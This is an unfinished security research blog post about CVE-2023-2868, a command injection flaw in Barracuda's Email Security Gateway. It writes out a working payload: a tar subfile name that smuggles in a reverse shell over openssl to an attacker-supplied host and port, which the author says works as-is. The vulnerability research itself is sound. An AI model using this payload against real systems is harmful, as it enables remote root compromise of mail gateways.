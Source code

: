 ```yaml
---
layout: post
title: CVE-2023-2868 - Diving Deeper To Total Device Compromise
subtitle: WIP
tags: hax cve barracuda pwn
date: 2025-08-20
background: https://lh3.googleusercontent.com/d/1JdPaNUt37-WV675cbqsskjcuJp0akekw
---
```

# CVE-2023-2868
Some of my past research work involved crafting one of the first public proof of concepts for CVE-2023-2868, a command injection vulnerability in Barracuda's Email Security Gateway appliance. My writeup can be found on [AttackerKB](https://attackerkb.com/topics/2Z0CWopGPX/cve-2023-2868/rapid7-analysis), and my original ruby PoC code can be found [here](https://github.com/cfielding-r7/poc-cve-2023-2868).

## TL;DR - PER MY LAST WRITEUP ;P
[CVE-2023-2868](https://cloud.google.com/blog/topics/threat-intelligence/barracuda-esg-exploited-globally/) is a command injection vulnerability in Barracuda ESG's custom wrapper for `amavisd`. A `.tar` file in the following format would trigger RCE: 
```
randomLetters.tar < - name of the tar file
    - `setsid sh -c "mkfifo /tmp/p;sh -i </tmp/p 2>&1|openssl s_client -quiet -connect #{LHOST}:#{LPORT} >/tmp/p 2>/dev/null;rm /tmp/p"`
      ^ The filename of a subfile within the tar file; subfile contents are random.  
```
This is a reconstruction of the details hinted at in [Mandiant's Blog](https://cloud.google.com/blog/topics/threat-intelligence/barracuda-esg-exploited-globally/), and works exactly as-is. 


## New Beginnings 
The vulnerability was patched in updates following the aforementioned blogs. However, for those who have an ESG appliance on their kitchen counter (lacking said security patches), CVE-2023-2868 can be used to get a root shell for further research. This post will explore that opportunity. 

WIP